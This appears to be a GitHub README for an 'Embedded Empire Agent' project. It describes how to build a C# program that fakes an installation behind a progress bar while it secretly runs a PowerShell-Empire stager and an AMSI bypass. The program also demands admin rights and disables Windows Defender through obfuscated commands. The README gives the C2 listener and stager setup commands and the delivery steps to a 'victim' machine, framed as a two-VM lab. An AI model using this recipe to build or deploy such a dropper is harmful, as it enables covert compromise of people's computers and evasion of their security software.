 ```
     ______          __             __    __         __
   / ____/___ ___  / /_  ___  ____/ /___/ /__  ____/ /
  / __/ / __ `__ \/ __ \/ _ \/ __  / __  / _ \/ __  / 
 / /___/ / / / / / /_/ /  __/ /_/ / /_/ /  __/ /_/ /  
/_____/_/ /_/ /_/_.___/\___/\__,_/\__,_/\___/\__,_/   

                            `````````
                         ``````.--::///+
                     ````-+sydmmmNNNNNNN
                   ``./ymmNNNNNNNNNNNNNN
                 ``-ymmNNNNNNNNNNNNNNNNN
               ```ommmmNNNNNNNNNNNNNNNNN
              ``.ydmNNNNNNNNNNNNNNNNNNNN
             ```odmmNNNNNNNNNNNNNNNNNNNN
            ```/hmmmNNNNNNNNNNNNNNNNMNNN
           ````+hmmmNNNNNNNNNNNNNNNNNMMN
          ````..ymmmNNNNNNNNNNNNNNNNNNNN
          ````:.+so+//:---.......----::-
         `````.`````````....----:///++++
        ``````.-/osy+////:::---...-dNNNN
        ````:sdyyydy`         ```:mNNNNM
       ````-hmmdhdmm:`      ``.+hNNNNNNM
       ```.odNNmdmmNNo````.:+yNNNNNNNNNN
       ```-sNNNmdh/dNNhhdNNNNNNNNNNNNNNN
       ```-hNNNmNo::mNNNNNNNNNNNNNNNNNNN
       ```-hNNmdNo--/dNNNNNNNNNNNNNNNNNN
      ````:dNmmdmd-:+NNNNNNNNNNNNNNNNNNm
      ```/hNNmmddmd+mNNNNNNNNNNNNNNds++o
     ``/dNNNNNmmmmmmmNNNNNNNNNNNmdoosydd
     `sNNNNdyydNNNNmmmmmmNNNNNmyoymNNNNN
     :NNmmmdso++dNNNNmmNNNNNdhymNNNNNNNN
     -NmdmmNNdsyohNNNNmmNNNNNNNNNNNNNNNN
     `sdhmmNNNNdyhdNNNNNNNNNNNNNNNNNNNNN
       /yhmNNmmNNNNNNNNNNNNNNNNNNNNNNmhh
        `+yhmmNNNNNNNNNNNNNNNNNNNNNNmh+:
          `./dmmmmNNNNNNNNNNNNNNNNmmd.
            `ommmmmNNNNNNNmNmNNNNmmd:
             :dmmmmNNNNNmh../oyhhhy:
             `sdmmmmNNNmmh/++-.+oh.
              `/dmmmmmmmmdo-:/ossd:
                `/ohhdmmmmmmdddddmh/
                   `-/osyhdddddhyo:
                        ``.----.`
    ______                _              ___                    __ 
   / ____/___ ___  ____  (_)_______     /   | ____ ____  ____  / /_
  / __/ / __ `__ \/ __ \/ / ___/ _ \   / /| |/ __ `/ _ \/ __ \/ __/
 / /___/ / / / / / /_/ / / /  /  __/  / ___ / /_/ /  __/ / / / /_  
/_____/_/ /_/ /_/ .___/_/_/   \___/  /_/  |_\__, /\___/_/ /_/\__/  
               /_/                         /____/                  
```

## Techno & Tools

---

- C#
- Python
- PowerShell-Empire
- https://github.com/danielbohannon/Invoke-Obfuscation

## Process

---

## Setup Environment

- You will need 2 VMs
    - Windows (Victim)
    - Kali Linux (Attacker)

Configure C2

### 1. Start PowerShell-Empire

<aside>
📌 Open 2  terminal and in each one enter these command (one in each)

</aside>

```bash
sudo powershell-empire server
sudo powershell-empire client
```

### 2. Configure Listener

```bash
uselistner http
set Name <Name>
set Host <Your IP>
set Port <Port>
execute
```

### 3. Configure Stager

<aside>
📌 This will generate .bat file

</aside>

```bash
usestager windows/laucher_bat
set listener <listener_name>
execute
```

## Coding Application

<aside>
💡 Make Progress Bar that will make it seem, like it is installing something but in the background it will inject the stager + AMSI Bypass (The patch is only applied for one PowerShell session after that it goes back to default)

</aside>

- I added an app-manifest that requires the application to be executed as administrator, so I would already have elevated privilege
- I also added some PowerShell command to deactivate some functionalities of windows defender, to be able to execute the script (They will be obfuscated)
- Now Your question might be why you need an AMSI bypass if you will disable windows defender. The thing is when you some PowerShell command AMSI will block it’s execution because it might be a malicious command even if it is obfuscated

## Obfuscation

<aside>
📌 Follow the instruction in this repository: https://github.com/danielbohannon/Invoke-Obfuscation, to install Invoke-Obfuscation on you attacking machine (Do it in a new terminal)

</aside>

You can encode any PowerShell command that you add in the Agent Process class

## Delivery

```bash
dotnet build
```

- Testing
    - Zip the program
    - Put it on the victim machine
    - unzip it
    - execute program
        - Will have to keep my listener running on my PowerShell machine
